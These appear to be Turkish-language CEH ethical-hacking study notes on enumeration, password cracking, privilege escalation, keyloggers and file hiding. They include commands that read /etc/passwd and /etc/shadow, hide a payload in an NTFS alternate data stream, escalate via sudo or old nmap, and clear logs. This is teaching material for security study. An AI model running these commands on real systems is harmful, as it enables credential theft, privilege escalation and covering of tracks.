- JXplorer Örnek: 

 

**NTP Numaralandırması** 

**UDP 123'te çalışır** 

- Sorgulama size sunucuya bağlı sistemlerin listesini verebilir (isim ve IP) 

**Araçlar** 

- NTP Server Scanner 
- AtomSync 
- Nmap ve Wireshark'ı da kullanabilir 
- **Komutlar** arasında ntptrace, ntpdate, ntpdc ve ntpq bulunur 

**NTP numaralandırması için Nmap örneği:** 

- -sU UDP taraması 
- -pU bağlantı noktası UDP 123 (NTP) 
- -Pn Tüm ana bilgisayarları çevrimiçi olarak kabul edin -- ana bilgisayar keşfini atlayın 
- -n DNS çözümlemesini asla yapma 
- nmap scripti ntp-monlist, yalnızca UDP 123'te çalışan ntp hizmetine karşı çalışacaktır.  

|| Target is synchronised with 127.127.38.0 |(reference clock) | |
| :- | :- | :- |
|| Alternative Target Interfaces: | ||
||	10.17.4.20 | ||
|| Private Servers (0) | ||
|| Public Servers (0) | ||
|| Private Peers (0) | ||
|| Public Peers (0) | ||
|| Private Clients (2) | ||
||	10.20.8.69	169.254.138.63 | ||
|| Public Clients (597) | ||
||	4.79.17.248	68.70.72.194 |74.247.37.194 |99.190.119.152 |
|| ... | | |
||	12.10.160.20 68.80.36.133 |75.1.39.42 |108.7.58.118 |
||	68.56.205.98 | | |
|	2001:1400:0:0:0:0:0:1 2001:16d8:dd00:38:0:0:0:2 

|	2002:db5a:bccd:1:21d:e0ff:feb7:b96f 2002:b6ef:81c4:0:0:1145:59c5:3682 

| Other Associations (1) 

|\_	127.0.0.1 seen 1949869 times. last tx was unicast v2 mode 7 

- Yukarıdaki çıktıda da görebileceğiniz gibi ağ üzerinde NTP servislerini kullanan tüm istemcilerin bilgileri IPv4 ve IPv6 adreslerini gösteriyor. 

**SMTP Numaralandırması** 

**Kullanılan bağlantı noktaları:** 

- **SMTP: TCP 25** --> [giden e-posta] 
- **IMAP: TCP 143 / 993**(SSL üzerinden) --> [gelen e-posta] 
- **POP3: TCP 110 / 995**(SSL üzerinden) --> [gelen e-posta] 

- Basit bir ifadeyle: kullanıcılar genellikle e-posta göndermek için SMTP ve e-posta almak için POP3 veya IMAP kullanan bir program kullanır. 

**nmap ile numaralandırma:** 

- -p25 bağlantı noktası 25 (SMTP) 
- --script smtp-commands nmap betiği - bir SMTP sunucusu tarafından desteklenen Genişletilmiş komutları toplamak için EHLO ve HELP'i kullanmayı dener. 

nmap -p25 --script smtp-commands <hedef IP> 

|PORT |STATE |SERVICE |
| :- | :- | :- |
|25/tcp |open |smtp |
| smtp komutları: WIN-J83C1DR5CV1.ceh.global Merhaba [10.10.10.10], TURN, SIZE 2097152, ETRN, PIPELINING, DSN, ENHANCEDSTATUSCODES, 8bitmime, BINARYMIME, CHUNKING, VRFY, OK, 

|\_ Bu sunucu aşağıdaki komutları desteklemektedir:HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH TURN ETRN BDAT VRFY 

Nmap tamamlandı: 1 IP adresi (1 ana bilgisayar) 0,86 saniyede tarandı 

- SMTP'ye Telnet bağlantısı üzerinden bağlanmak mümkündür, bunun yerine 23 numaralı bağlantı noktasını (Telnet) kullanarak yapabiliriz telnet komutunda port 25'i(SMTP) ayarlayın: 
- telnet <hedef> 25 
- Bağlandığımızda, SMTP komutlarını aşağıda gösterildiği gibi keşfetmek için kullanabiliriz: 

 

- Her iki e-posta da kaba kuvvet vb. gibi diğer saldırıları araştıran bir saldırgan için geçerlidir. 

**Bazı SMTP Komutları:** 

**Komut**	**Açıklama** 

HELO	İlk SMTP komutudur: gönderen sunucuyu tanımlayan konuşmayı başlatır ve genellikle alan adı tarafından takip edilir. 

EHLO	Sunucunun Genişletilmiş SMTP protokolünü kullandığının temelinde, konuşmayı başlatmak için alternatif bir komut. 

MAIL FROM	Bu SMTP komutuyla işlemler başlar: gönderen kaynak e-posta adresini “Kimden” alanına belirtir ve fiilen e-posta aktarımını başlatır. 

RCPT TO	E-postanın alıcısını tanımlar. 

DATA	DATA komutu ile e-posta içeriği aktarılmaya başlar; genellikle sunucu tarafından verilen ve gerçek iletimi başlatma izni veren 354 yanıt kodu gelir. 

VRFY	Sunucudan, belirli bir e-posta adresinin veya kullanıcı adının gerçekten var olup olmadığını doğrulaması istenir. 

EXPN,	bir posta listesinin tanımlanması hakkında onay ister. 

**Diğer Araçlar:** 

- smtp-user-enum 
- Öncelikle varsayılan Solaris SMTP hizmetine karşı kullanım için kullanıcı adı tahmin aracı. EXPN, VRFY veya RCPT TO kullanabilir. 

Numaralandırma, Etik Hacking'in ilk aşamasına, yani "Bilgi Toplama"ya aittir. Bu, saldırganın kurbanla aktif bir bağlantı kurduğu ve sistemlerden daha fazla yararlanmak için kullanılabilecek mümkün olduğu kadar çok saldırı vektörü keşfetmeye çalıştığı bir süreçtir. 

Numaralandırma, hakkında bilgi elde etmek için kullanılabilir - 

- Ağ paylaşımları 
- SNMP verileri, eğer düzgün bir şekilde korunmamışlarsa 
- IP tabloları 
- Farklı sistemlerin kullanıcı adları 
- Şifre politikaları listeleri 

Numaralandırmalar, sistemlerin sunduğu hizmetlere bağlıdır. onlar olabilir - 

- DNS numaralandırma 
- NTP numaralandırması 
- SNMP numaralandırması 
- Linux/Windows sıralaması 
- SMB numaralandırması 

Şimdi Numaralandırma için yaygın olarak kullanılan araçlardan bazılarını tartışalım. 

**NTP Suite** 

NTP Suite, NTP numaralandırması için kullanılır. Bu önemlidir çünkü bir ağ ortamında, ana bilgisayarların zamanlarını güncellemelerine yardımcı olan başka birincil sunucular bulabilir ve bunu sistemin kimliğini doğrulamadan yapabilirsiniz. 

Aşağıdaki örneğe bir göz atın. 

 

**enum4linux** 

enum4linux, Linux sistemlerini numaralandırmak için kullanılır. Aşağıdaki ekran görüntüsüne bir göz atın ve bir hedef ana bilgisayarda bulunan kullanıcı adlarını nasıl bulduğumuzu gözlemleyin. 

 

**smtp-user-enum** 

smtp-user-enum, SMTP hizmetini kullanarak kullanıcı adlarını tahmin etmeye çalışır. Bunu nasıl yaptığını anlamak için aşağıdaki ekran görüntüsüne bakın. 

 

**Quick Fix** 

Kullanmadığınız tüm hizmetleri devre dışı bırakmanız önerilir. Sistemlerinizin çalıştırdığı hizmetlerin işletim sistemi numaralandırma olanaklarını azaltır. 

**3. System Hacking** 

⚡ **Bu bölüm uygulamalı laboratuvarlara sahiptir.** 

**Goals:** 

1. **Erişim Kazanma -** Sistemden yararlanmak için toplanan bilgileri kullanır 

**Şifre Saldırıları:** 

- **Elektronik olmayan saldırılar** 

**Etkin çevrimiçi saldırılar** 

- **Pasif çevrimiçi saldırılar** 

**Çevrimdışı saldırılar** 

2. **Artan Ayrıcalıklar -** Saldırıya uğradığınız hesaba yönetici izni vermek veya bir yönetici hesabına geçiş yapmak 
3. **Uygulamaları Yürütme -** Erişimi sürdürebilmeniz için sisteme arka kapılar koymak 
4. **Dosyaları Gizleme -** Geride bıraktığınız dosyaların keşfedilebilir olmadığından emin olun 
5. **İzleri Kapatma -** Diğer her şeyi temizleme (kayıt dosyaları, vb.) 
- **clearev -** Günlük dosyalarını temizlemek için Meterpreter kabuk komutu (Metasploit Framework içinde verilir) 
- Windows'ta MRU listesini temizle 
- Linux'ta, bir dosyayı gizlemek için önüne bir nokta ekleyin 

**Şifre Saldırıları** 

⚡ **SAM karmalarını Boşaltma ve Kırma [1], Rainbow Tables Basics [2] ve LLMNR/NBT-NS** 

**Elektronik olmayan - Teknik olmayan saldırılar.** 

- Sosyal mühendislik saldırıları - en etkilisi. 
- Omuz sörfü 
- Dalış çöplüğü 
- Etrafta gözetleme 
- Tahmin 

**Etkin çevrimiçi - kurbanın makinesiyle doğrudan iletişim kurarak yapılır.** 

- Sözlük ve Brute-force saldırıları, hash enjeksiyonları, kimlik avı, Truva atları, casus yazılımlar, keylogger'lar ve parola tahmini içerir 

- **LLMNR / NBT-NS Poisoning** - DNS'yi yerel olarak önbelleğe alan Windows teknolojilerine dayalı saldırı. Bunlara yanıt vermek yerel önbelleği zehirler. Bir NTLM v2 karması gönderilirse, koklanabilir ve ardından kırılabilir. 

- ⚡ LLMNR/NBT-NS pratik laboratuvarı 

**LLMNR, UDP 5355 kullanır** 

- **NBT-NS, UDP 137 kullanır** 
- Responder, LLMNR / NBT-NS'den erişim günlüklerini koklamak için kullanılan araçtır. 

 

- **Keylogging** - bir kullanıcının tuş vuruşlarını yakalamak için bir donanım aygıtı veya yazılım uygulaması kullanma süreci 

- Aktif çevrimiçi saldırıların tespit edilmesi daha kolaydır ve daha uzun sürer 

**Aktif Çevrimiçi Saldırı Araçları:** 

- Medusa 
- Hydra 
- NBNSpoof 
- Pupy 
- Metasploit 
- Responder - LLMNR ve NBT-NS yanıtlayıcı, ad soneklerine göre belirli NBT-NS (NetBIOS Ad Hizmeti) sorgularına yanıt verecektir. Araç, varsayılan olarak yalnızca SMB için olan Dosya Sunucusu Hizmeti isteğine yanıt verir. 

- Kullanıcı kimliklerinin ve parolalarının testini otomatikleştirmek için "net" komutlarını NetBIOS Denetim aracı veya Legion gibi bir araçla birleştirebilir 

**NetBIOS saldırısı için araçlar:** 

- Hydra 
- Metasploit 

**Pasif çevrimiçi - Açık metindeki bir şifreyi ele geçirme veya yeniden oynatma saldırısı veya ortadaki adam saldırısı girişiminde bulunma umuduyla kabloyu koklama** 

**Pasif Çevrimiçi Saldırı Araçları:** 

- Cain ve Abel - ARP'yi zehirleyebilir ve ardından kurbanın trafiğini izleyebilir; Ayrıca karma parolaları (LM, NTLM) kırmak, parola için ağ paketlerini koklamak, yerel saklanan parolaları koklamak vb. için kullanılır. 
- Ettercap - LAN'lar için MITM aracı, DNS Spoofer; SSL şifrelemesine karşı yardım; Bir ağ segmentindeki trafiği durdurun, şifreleri yakalayın ve bir dizi ortak protokole karşı aktif bir dinleme gerçekleştirin. 
- KerbCrack - 88 numaralı bağlantı noktası Kerberos trafiğini arayan yerleşik algılayıcı ve parola kırıcı 
- ScoopLM - özellikle kabloda Windows kimlik doğrulama trafiğini arar ve bir parola kırıcıya sahiptir 

**Açık metin kullanan Hizmetler/Protokoller: Service**	**Port** 

FTP	20/21 

TELNET	23 

|SMTP |25 |
| :- | :- |
|HTTP |80 |
|POP3 |110 |
|IMAPv4 |143 |
|NetBIOS |139,445 |
|SNMP |161,162 |
|SQLnet |1521 |

**Çevrimdışı - Hacker parola dosyasının (Düz Metin veya Hash) bir kopyasını çaldığında ve kırma işlemini ayrı bir sistemde gerçekleştirdiğinde.** 

- **Sözlük Saldırısı -** parolaya saldırmak için bir sözcük listesi kullanır. En hızlı saldırı yöntemi 

- **Kelime listeleri** - Bir kelime listesi veya bir parola sözlüğü, düz metin olarak saklanan bir parola koleksiyonudur. Temelde içinde bir sürü şifre bulunan bir metin dosyasıdır. Kelime listesinin popüler bir örneği, 14.341.564 benzersiz şifre içeren **rockyou.txt'**dir. 

- Ayrıca uzunluk, harf ve sayıları birleştirme, profil oluşturma gibi verilen parametrelerle kendi kelime listenizi oluşturabilirsiniz. 

- Kelime listeleri oluşturmak için araçlar: 
- CeWL 
- Crunch 

- **Kaba kuvvet saldırısı** - Bir şifreyi kırmak için her karakter kombinasyonunu dener 

- Parametreleri biliyorsanız daha hızlı olabilir (en az 7 karakter, özel bir karakter olmalı, vb.) 

- **Hibrit saldırı -** Bir sözlük saldırısı alır ve karakterleri değiştirir (o için 0 gibi) veya sonuna sayı ekler 

- **Gökkuşağı tabloları -** Bir parola karması ile karşılaştırmak için önceden hash edilmiş şifreler kullanır. Daha hızlıdır çünkü karmalar zaten hesaplanmıştır. 

**Parola dosyalarını kırma araçları (CLI):** 

- John the Ripper - Unix, Windows ve Kerberos'ta çalışır; MySQL, LDAP ve MD4 ile uyumludur. 
- Hashcat - Gelişmiş şifre kurtarma aracı; OS'ler, belgeler, şifre yöneticileri... (MD5, SHA-ailesi, RIPE-MD, NTLM, LM, BitLocker, OSX, saltlanmış veya yinelenmiş MD5 ve liste uzayıp gidiyor) gibi çeşitli seçenekler sunar. 
 

 

**Parola dosyalarını kırma araçları (GUI):** 

- Cain & Abel - Windows yazılımı; Karma şifreleri (LM, NTLM), şifre için ağ paketlerini koklar, yerel depolanmış şifreleri araştırılabilir, vb. 
- LOphcrack - Ücretli yazılım; Hash'leri çıkarın ve kırın; Kaba kuvvet veya sözlük saldırısı kullanır; 
- Ophcrack - Ücretsiz açık kaynak; Gökkuşağı tabloları aracılığıyla LM karmalarını kullanarak Windows oturum açma parolalarını kırar. 
- Rainbowcrack - Parola kırma için Rainbow tabloları üreteci 
- Legion - Legion, NetBIOS oturumlarında parola tahminini otomatikleştirir. Legion, Windows paylaşımları için birden çok IP adresi aralığını tarar ve ayrıca manuel bir sözlük saldırısı aracı sunar. 
- KerbCrack - Kerberos şifrelerini kırın. 
- Mimikatz - Kimlik bilgilerini çalın ve ayrıcalıkları artırın (Windows NTLM karmaları ve Kerberos biletleri (Altın Bilet Saldırısı); 'Hash'i Geç' ve 'Kitabı Geç'). 
- fgdump - Windows makinelerinde SAM veritabanlarını boşaltın. 
- Pwdump7 - SAM veritabanlarını Windows makinelerinde boşaltın. 

- **CHNTPW** - chntpw, Windows NT, 2000, XP, Vista, 7, 8, 8.1 ve 10 tarafından kullanılan yerel parolaları sıfırlamak veya silmek için kullanılan bir yazılım yardımcı programıdır. Bunu, Windows'un parola karmalarını depoladığı SAM veritabanını düzenleyerek yapar. 

- i. Kurbanın bilgisayarına **fiziksel erişim** 
- ii. BIOS'ta başlatma ve CD veya USB'ye önyüklemeye izin verme 
- iii. CHNTPW aracılığıyla SAM kullanıcı hesabı bilgilerini değiştirin 

- rtgen, winrtgen - Kendi gökkuşağı tablolarınızı oluşturmak için araçlar. 

- **SAM (Güvenlik Hesabı Yöneticisi)**, yerel bir bilgisayardaki kullanıcılar için kullanıcı hesaplarını ve güvenlik tanımlayıcılarını depolayan Windows makinelerinde bulunan bir veritabanı dosyasıdır. Kullanıcıların parolalarını bir karma biçimde (LM karma ve NTLM karma olarak) saklar. Hash işlevi tek yönlü olduğundan, bu, parolaların saklanması için bir miktar güvenlik sağlar. 

- /etc/shadow, karma parola verilerinin Linux sistemlerinde depolandığı yerdir (yalnızca yüksek ayrıcalıklara sahip kullanıcılar erişebilir). 

- Parola saldırısına karşı önlemler: 

- Parolaların uzunluğu kaba kuvvet saldırılarına karşı iyidir. 
- Parola karmaşıklığı sözlük saldırılarına karşı iyidir. 

**Kimlik Doğrulama** 

**Üç Farklı Tip** 

- **Olduğunuz Bir Şey** - Kimliği doğrulamak için biyometri kullanır (retina, parmak izi vb.) 
- Dezavantajı, birçok yanlış negatif olabilir 

- Yanlış kabul oranı (FAR) - Tip II - Yetkisiz bir kullanıcının kabul edilme olasılığı (Bu kötü olur) 

- Yanlış enjeksiyon oranı (FRR) - Tip I - Yetkili bir kullanıcının reddedilme olasılığı 

- Geçiş hata oranı (CER) - İkisinin birleşimi; CER ne kadar düşük olursa, sistem o kadar iyi olur 

- Etkin - etkileşim gerektirir (retina taraması veya parmak izi tarayıcı) 

- Pasif - Etkileşim gerektirmez (iris taraması) 

- **Sahip Olduğunuz Bir Şey** - Genellikle bir tür jetondan oluşur (geçiş rozeti, ATM kartı vb.) 
- Bu tür genellikle yanında bir şey gerektirir (ATM kartı için bir PIN gibi) 
- Bazı belirteçler tek faktörlüdür (tak ve çalıştır kimlik doğrulaması gibi) 

- **Bildiğiniz Bir Şey** - Daha çok parola olarak bilinir 
- Çoğu sistem bunu kullanır çünkü evrenseldir ve iyi bilinir. 

- **İki Faktör** - Bildiğiniz bir şey (şifre) ve sahip olduğunuz bir şey (erişim kartı) gibi iki tür kimlik doğrulamanız olduğunda 

- **Parolaların gücü** - Uzunluk ve karmaşıklığa göre belirlenir 

- ECC, en iyi sonuç için her ikisinin birleştirilmesi gerektiğini söylüyor 
- Karmaşıklık, kullanılan karakter setlerinin sayısıyla tanımlanır (küçük harf, büyük harf, sayılar, semboller vb.) 

- **Varsayılan şifreler** - her zaman değiştirilmeli ve asla geldikleri gibi bırakılmamalıdır. cirt.net, default-password.info ve open-sez.me gibi veritabanlarının hepsinde bunlardan oluşan veritabanları bulunur. 

**Windows Güvenlik Mimarisi** 

- SAM dosyasında saklanan kimlik doğrulama bilgileri 
- Dosya C:\windows\system32\config konumunda bulunur 
- Daha eski sistemler LM hashing kullanır. Geçerli NTLM v2 (MD5) kullanır 
- Windows ağ kimlik doğrulaması Kerberos kullanır 

**LM Karması*** 

- Parolayı böler. 7 karakterden fazla ise iki kısımda kodlanır. 
- Bir bölüm boşsa, hash AAD3B435B51404EE olacaktır. 
- Karmayı bölebileceğiniz için parola 7 karakter veya altındaysa kırılması kolaydır 
- SAM dosyası KullanıcıAdı:SID:LM\_Hash:NTLM\_Hash::: olarak sunulur. 

**Ntds.dit*** 

Parolaları depolayan bir etki alanı denetleyicisindeki veritabanı dosyası 

- %SystemRoot%\NTDS\Ntds.dit veya 
- %SystemRoot%System32\Ntds.dit'te bulunur 
- Active Directory'nin tamamını içerir 

**Active Directory Etki Alanı Hizmetleri (AD DS) için Kerberos*** 

 

- Takas Adımları 
- i. İstemci, Anahtar Dağıtım Merkezinden (KDC) bir bilet ister. Açık metin olarak gönderilir. 
- ii. Sunucu, Bilet Verme Bileti (TGT) ile yanıt verir. Bu, sunucuda depolanan parola kopyası tarafından oluşturulan gizli bir anahtardır. 
- iii. İstemci şifresini çözebilirse, TGT, bir Bilet Verme Hizmeti (TGS) hizmet bileti talep ederek sunucuya geri gönderilir. 
- iv. Sunucu, istemcinin kaynaklara erişmek için kullandığı TGS hizmet biletini gönderir. 

**Araçlar** 

- KerbSniff 
- KerbCrack 
- İkisinin de kırılması uzun zaman alıyor 

- **TCP/UDP Bağlantı Noktası 88'i kullanır** 

**Kayıt Defteri** 

 

- Sistemin çalışmasını sağlayan tüm ayarların ve yapılandırmaların toplanması 
- Anahtarlardan ve değerlerden oluşur 

- Kök seviye anahtarları 
- **HKEY\_LOCAL\_MACHINE** (HKLM) - donanım ve yazılım hakkında bilgi 
- **HKEY\_CLASSES\_ROOT** (HKCR) - dosya ilişkilendirmeleri ve OLE sınıfları hakkında bilgi 
- **HKEY\_CURRENT\_USER** (HKCU) - mevcut kullanıcı için tercihler dahil profil bilgileri 
- **HKEY\_USERS** (HKU) - şu anda etkin olan tüm kullanıcılar için özel kullanıcı yapılandırma bilgileri 
- **HKEY\_CURRENT\_CONFIG** (HKCC) - HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Hardware Profiles\Current 

- Değer Türü 
- **REG\_SZ** - karakter dizisi 
- **REG\_EXPAND\_SZ** - genişletilebilir dizi değeri 
- **REG\_BINARY** - bir ikili değer 
- **REG\_DWORD** - 32 bit işaretsiz tamsayı 
- **REG\_LINK** - başka bir anahtara sembolik bağlantı 
- Önemli Yerler 
- HKEY\_LOCAL\_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServic esOnce 
- HKEY\_LOCAL\_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServic es 
- HKEY\_LOCAL\_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce 
- HKEY\_LOCAL\_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 
- Düzenlenecek yürütülebilir dosyalar 
- regedit.exe 
- regedt32.exe (Microsoft tarafından tercih edilir) 

**MMC** 

 

- Microsoft Yönetim Konsolu - Windows tarafından sistemi yönetmek için kullanılır 

- Kümeleri değiştirmenize izin veren "ek bileşenlere" sahiptir (Grup İlkesi Düzenleyicisi gibi) 

**Sigverif.exe** 

 

- Dosya İmzası Doğrulaması (Sigverif.exe) imzalı dosyaları algılar ve şunları yapmanızı sağlar: 
- Onaylandıktan sonra dosyanın kurcalanmadığını doğrulamak için imzalanan dosyaların sertifikalarını görüntüleyin. 
- İmzalı dosyaları arayın. 
- İmzasız dosyaları arayın. 

**Linux Güvenlik Mimarisi** 

**Linux Dizin Yapısı*** 

- Linux kökü sadece bir eğik çizgidir (/) 
- Önemli yerler 
- **/** - kök dizini 
- **/bin** - temel Linux komutları 
- **/ dev** - çeşitli depolama ve giriş/çıkış sistemlerine işaretçi konumlarını içerir 
- **/etc** - tüm yönetim dosyaları ve parolalar. Hem şifre hem de gölge dosyaları buradadır 
- **/home** - kullanıcı ev dizinlerini tutar 
- **/mnt** - bağladığınız erişim konumlarını tutar 
- **/sbin** - daha fazla yönetim komutu içeren sistem ikili dosyaları klasörü 
- **/usr** - kullanıcılara özgü bilgilerin, komutların ve dosyaların neredeyse tamamını tutar 

 

**Linux Ortak Komutları Komut**	**Açıklama*** 

adduser	Sisteme bir kullanıcı ekler 

cat	Dosyanın içeriğini görüntüler 

cp	Kopyalar 

ifconfig	Ağ yapılandırma bilgilerini görüntüler kill	Çalışan bir işlemi öldürür 

ls	Bir klasörün içeriğini görüntüler. -l seçeneği çoğu bilgiyi sağlar. man	Bir komut için kılavuz sayfasını görüntüler 

passwd	Parolayı değiştirmek için kullanılır 

ps	İşlem durumu. -ef seçeneği tüm işlemleri gösterir 

rm	Dosyaları kaldırır. -r seçeneği, tüm dizinleri ve alt dizinleri yinelemeli olarak kaldırır su	Başka bir kullanıcı (süper kullanıcı) olarak işlevleri gerçekleştirmenize izin verir 

- Bir işlem adından sonra bir ve işareti eklemek, işlemin arka planda çalışması gerektiğini gösterir. 

- pwd - curennt dizinini görüntüler 
- chmod - bir klasör veya dosyanın izinlerini değiştirir 
- Okuma 4, yazma 2 ve yürütme 1'dir. 

○ 

|**Okuma** |**Yazma** |**Yürütme** |
| :- | :- | :- |
|r– |-w- |--x |
|4 |2 |1 |

- İlk sayı kullanıcı, ikincisi grup, üçüncüsü diğerleri 
- Linux'ta ls komutunu -la bayrağıyla verdiğinizde izinleri görebilirsiniz. Aşağıda gördüğünüz gibi dosyanın herkes için bir izni var (777), şöyle olacak: 
- rwxrwxrwx ---> kullanıcı 
- rwxrwxrwx ---> grup 
- rwxrwxrwx ---> diğerleri 
- Başka bir örnek - 755, kullanıcılar için her şeydir, grup için okuma/yürütme ve diğerleri için okuma/yürütme 
- rwxr-xr-x ---> kullanıcı 
- rwxr-xr-x ---> grubu 
- rwxr-xr-x ---> diğerleri 
- Ayrıca şu izinleri ayarlayabilirsiniz: chmod g=rw (gruplar için okuma/yazma ayarı). 
- Kökün UID'si ve GID'si 0'dır - bu bilgiyi komut kimliğini vererek görebilirsiniz. root@kali:~# id 
- uid=0(root) gid=0(root) groups=0(root) 

- İlk kullanıcının UID'si ve GID'si 500'dür (Fedora ve CentOS); çoğu Linux sisteminde root olmayan/normal kullanıcı UID ve 1000 GID'dir. 

- normal-user@kali:~# id 
- id 
- uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(p lugdev),109(netdev),117(bluetooth),132(scanner) 

- Mevcut sistemlerin çoğunda parolalar **/etc/shadow** içinde saklanır 

- **/etc/passwd** parolaları hash'lerde saklar. 

- cat /etc/passwd 
- root:x:0:0:root:/root:/bin/bash 
- daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
- bin:x:2:2:bin:/bin:/usr/sbin/nologin 
- sys:x:3:3:sys:/dev:/usr/sbin/nologin 
- sync:x:4:65534:sync:/bin:/bin/sync 
- (...) 

- **/etc/shadow** Şifrelenmiş (hashing uygulanmış ve tuzlanmış) parolaları depolar ve yalnızca root tarafından erişilebilir 

- sudo cat /etc/shadow 
- root:!:18390:0:99999:7::: 
- daemon:\*:18390:0:99999:7::: 
- bin:\*:18390:0:99999:7::: 
- kali:$6$a/53BntOdPOaghAx$VCAdR3Af97cYTtWCtDp9iksacL3gj2Sgrb12EMix0IT uxc5jOQp1lbaRi.jNDsP2qjV3GvFAqd5Fu.8/7/P1.:18281:0:99999:7::: 
- (...) 

**Yetki yükseltme ve Uygulama çalıştırma** 

**Dikey - Düşük seviye yetki sahibi kullanıcının yüksek seviye yetki elde etmesi ( örnek : yaygın kullanıcı >> root/administrator)** 

**Yatay - Aynı seviye yetkiye sahip bir kullanıcı için uygulama çalıştırma. Fakat farklı izin alanları ve verileri görme.** 

- Bir adminin şifresini kırmak - Öncelikli hedef 
- İşletim sisteminin güvenlik zaafiyetini avantajımız olarak kullanmak. 
- Özel bir yükseltme gerçekleştirmenin bir yolu CVE’leri kullanmaktır. Diğer yollar ise , yerel kabular, c kabukları , web kabuklarını kullanmak. 
- Örnek: 
- Linux: DirtyCow race-condition Güvenlik zaafiyeti. 
- Windows: EternalBlue uzaktan kod yürütmek için (RCE) Samba’nın sürüm 1’den eski versiyonu kullanılmaktadır. 
- **DLL Hijacking** - Uygulama üzerinde ki bir DLL (Dynamic link library) dosyasını bizim için avantaj yaratacak bir dosya ile değiştirme. 
- Linux makinelerde crontab’ı aramak ve yetkilerde düzenleme yapmak mümkündür. 
- Linux makinelerde güvensiz sudo root’a bir ayrıcalık yükseltilmesine yol açabilir; Yazarak kontrol edebilirsiniz: sudo -l. Ekranda herhangi bir sistem komutu göründüyse, NOPASSWD seçeneğine izin verir, bu da yükseltmeye neden olacaktır. 

Eski NMAP versiyonlarında etkileşim modunu açıp root yetkilerini düzenlemek 	için !/bin/bash editleyebilirsiniz. 

- Metasploit gibi size bir erişim sağlayacak araç kullanın. 
- Bir kullanıcının uygulamanızı çalıştırması için sosyal mühendislik kullanabilirsiniz. 
- ECC, uygulamaları yürütmeyi sisteme “sahip olmak” olarak ifade eder. 
- **Uygulamaları çalıştırma** - Casus yazılımları , Keylogger’leri , Arka Kapıları ve Cracker gibi şeyleri başlatma. 

**Gizli veri toplama** 

**Keyloggerler- Bir kişinin klavye vuruşlarını ve ağda ki tüm tuş vuruşlarını toplamakla görevlidir.** 

- Keyloggeri bir casus yazılım ile ilişkilendirirseniz topladığı bilgileri karşı tarafa yollayacaktır. 
- **Keylogger tipleri** 
- **Donanımsal keylogger**  
- PC/BIOS Gömülü 
- Klavye 
- Harici Cihazlar 
- PS/2 ve USB 
- Acoustic/CAM 
- Bluetooth 
- Wi-Fi 
- **Donanımsal Keylogger Araçları:** 
- KeyGrabber - PS2/USB girişli klavyelerde ki tüm vuruşları yakalayabilen elektronik bir cihaz. 
- **Yazılımsal keylogger** 
- Uygulama 
- Çekirdek 
- HiperVizör tabanlı 
- Form yakalama tabanlı (web form verilerinde ki kayıtlar) 
- **Yazılımsal Keylogger Araçları:** 
- KeyCarbon 
- Keyllama Keylloger 
- Keyboard logger 
- KeyGhost 

**Casus yazılımlar - Kullanıcının eylemlerini takip etmek ve bilgisi olmadan bunları loglara kaydetmek** 

- Islemini dosyalarını ve diğer nesneleri gizleyin. 
- **Casus yazılımlar kullanıcının PLL’ini açığa çıkarabilir, etkinliğini izleyebilir, rahatsız edici pencereler açabilir, web sayfalarında ki reklamlara yönlendirebilir, tarayıcı ayarlarını değiştirebilir, parolaları çalabilir, DLL dosyalarını değiştirebilir, güvenlik duvarları ayarlarını değiştirebilir vb şeyleri yapabilir.**  
- **Casus yazılım tipleri:** 
- Masaüstü 
- Email 
- Internet 
- Çocuk izleme cihazları 
- Ekran kaydediciler 
- USB 
- Ses ve Video 
- Yazıcılar 
- Mobil uygulamalar, telefonlar, cep telefonu 
- GPS 
- **Casus yazılım araçları**: 
- SpyAgent - Tamamen yasal olarak bilgisayarınızda ki eylemleri gizlice izlemek ve kaydetmek için kullanılır. 
- Power Spy - Tamamen yasal olarak bilgisayarınızda ki eylemleri gizlice izlemek ve kaydetmek için kullanılır. 
- **mSpy** - Lokasyonunuzu izleyen bir GPS casus yazılımı 
- **USBDeview** - Bilgisayara bağlı olan USB aracılığılı ile transfer edilen verileri analiz eder ve izler. 

**Casus yazılımlara ve keyloggerlere karşı savunma** 

- Bilgisayar sistemlerine karşı fiziksel erişimin kısıtlanması 
- Klavye ve sürücü için anti-keylogger kullanma 
- Pop-up engelleyiciyi kullanmak ve gereksiz e-postalardan kaçınmak 
- Antivirüs ve AntiCasus yazılımı kullanma 
- Güvenlik duvarı ve keylogging önleme yazılımı (Zemana AntiLogger) 
- Güncelleyin ve yamalayın! 
- Phishing saldırılarını tanıma 
- Host tabanlı IDS  
- Otomatik form doldurma yöneticisi veya sanal klavye 

**Dosyaları Saklama** 

- Window’ta dosyaları saklamak için Alternetif veri akışını (ADS) kullanabilirsiniz. 
- NTFS dosya sisteminde ki dizin listesinden bir dosyayı gizler. 
- type badfile.exe: > plaintext.txt:badfile.exe 
- Sonra bir sistem linki oluştuulur mklink normalApp.exe readme.txt:badfile.exe) 
- Dosyaları bir FAT bölümüne kopyalayarakta tüm ADS’leri temizleyebilirsiniz. 
- ADS’yi görmek için, dir /r işe yarayacaktır; 
- streams’leri göstermek için **Sysinternals** kullanabilirsiniz. 
- Ayrı bunu aramak için Forensic Tool Kit (FSK) kullanabilirsiniz. 
- **Dosyaları niteliklere göre de saklayabilirsiniz.** 
- Windowss: attrib +h filename 
- Linuxta basit bir şekilde dosya isminin başına . koyabilirsiniz. (.file.tar) 
- **Steganography kullanarak dosyaları saklayabilirsiniz.** 
- Steganography Araçları: 
- CLI (Linux): 
- **steghide** 
- GUI (Windows): 
- **Snow** 
- **OpenStego** 
- **OpenPuff** 

**Steganography:** 

- **Steganography** - Sadece gönderen ve alanın haberi olduğu, bir mesajı başka bir ortam dosyasına gizleme uygulaması. 
- **Anlama yolları** 
- Yazı - Karakter konumları anahtardır. Boşluklar, metin kalıpları. 
- Fotoğraf - Dosya boyutu daha büyük. Bazılarında renk paleti hatası olabilir. 
- Ses & Video - Istatiksel analiz için gerekli 
- **Methodlar** 
- En az önemli bit ekleme - En az önemli biti değiştir 
- Maskeleme ve Filtreleme (Gri tonları) - Filigram gibi 
- Algoritmik Transfer - Görüntü sıkıştırma da kullanılan matematiksel fonksiyonlar kullanılır. 
